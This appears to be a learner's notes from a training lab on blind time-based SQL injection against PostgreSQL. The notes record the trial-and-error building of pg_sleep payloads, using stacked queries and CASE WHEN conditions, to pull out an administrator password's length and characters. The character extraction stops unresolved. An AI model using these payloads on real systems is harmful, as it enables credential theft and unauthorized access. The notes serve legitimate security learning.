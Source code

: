 # The Lab
# Goal: Log in as Admin

# Preliminary Work
- Given: no different responses for errors or no rows or custom welcome messages returned
    - thus, conditional error payloads are not applicable
- Do conditional payloads with time delays

# Conditional Time Delay Exploitation
- Testing version of SQL with unconditional time delays
    - PostgreSQL: fake'||pg_sleep(10)-- (:white_check_mark:)
- Testing conditional time delays
    - PostgreSQL: fake'||SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
        - Loads normally? (:white_check_mark:)
    - Delays?
        - fake'||SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END-- (:x:)
        - fake'||SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:x:)
        - fake'||SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END# (:x:)
        - fake'+SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:x:)
        - fake'+SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END# (:x:)
        - fake';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END-- (:x:)
        - fake';SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:x:)
        - fake';SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END# (:x:)
        - fake';SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:x:)
        - fake';SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END# (:x:)
        - Looked at solution
            - Completely forgot about URL encoding lol
                - Imagine people actually santizing input lol
            - fake'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:white_check_mark:)
                - %3B = semicolon
                - Had good idea with plus signs
- Using conditional time delays to extract password characters

# Extracting Information
- Trying: fake'%3BIF+(SELECT+COUNT(username)+FROM+users+WHERE+username+=+'administrator'+AND+SUBSTRING(password,1,1)+>+'m')+=+1+THEN+pg_sleep(10)+ELSE+pg_sleep(0)-- (:x:)
    - Testing to see if the expression is true? (evaluates to 1) <-- PLEASE INVESTIGATE
    - Reminders:
        - Indexing begins from 1
        - First # is index
        - Second # is number of characters after first index to include
- Subsequent Attempts:
    - Replacing %3B with ||
    - Removing plus signs
    - Did not try changing comment characters cuz fake'||pg_sleep(10)-- works
- Looked at solution -> need to change syntax drastically lol
    - Put 'FROM users' at end of statement before comments
    - Replace 'SELECT COUNT' with 'SELECT CASE WHEN'
    - They use 'LENGTH(password)' to get length before spamming with guesses
        - Better strat than mine lol
    - Put 'END' when done with if statement
    - Removed '= 1' at end of if statment condition
    - Removed IF statement entirely
        - Using SELECT CASE WHEN
- Reformulating...
- New payload attempt: fake'%3BSELECT+CASE+WHEN+(username+=+'administrator'+AND+LENGTH(password)+>+1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users-- (:white_check_mark)
    - IT WORKS!!! -> need to continue testing for length
    - Greater than 10
    - Less than or equal to 20
    - Greater than 15
    - Greater than 17
    - Either 18, 19, or 20
        - Not 18
        - Not 19
        - Yes 20! (:white_check_mark)
            - Payload: fake'%3BSELECT+CASE+WHEN+(username+=+'administrator'+AND+LENGTH(password)+=+20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
            - Only 1 equal sign (not usual ==)
    - Password is 20 (will need to use a LOT of payloads since I am doing it manually)
- Payload for letter equality: fake'%3BSELECT+CASE+WHEN+(username+=+'administrator'+AND+SUBSTRING(password,1,1)+>+'m')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
    - Having ASCII Chart is nice ![ASCII Chart](./ASCII-Chart.webp)
    - Letter 1: C
        - Greater than 'm'
        - Greater than 'M'
        - Greater than 'G'
        - Greater than 'D'
        - Either 'A','B','C'
            - Not 'A'
            - Not 'B'
            - Not 'C'
        - Thus, not a letter
        - Try numbers next
            - Greater than '5'
            - Greater than '2'
            - Not '1'
        - Try other symbols before numbers and after whitespace characters
            - Greater than ')'
            - Greater than '$'
            - Greater than '"'
            - Not !
        - IDK WHAT IS HAPPENING LOL
            - At least some delays are happening though :)


# Observations
- '||' concantenation works for unconditional time delays ONLY
- Might try the URL encoded semicolon on previous labs that I could not solve
- Stop trying to copy paste syntax from lessons
    - Figure out what you want to do and look up proper SQL syntax
    - Still learn strats from lessons, but apply syntax from own research
    - SQL cheat sheet might not be as helpful as it sounds
- Getting 504 Response = Timeout -> try opening new lab

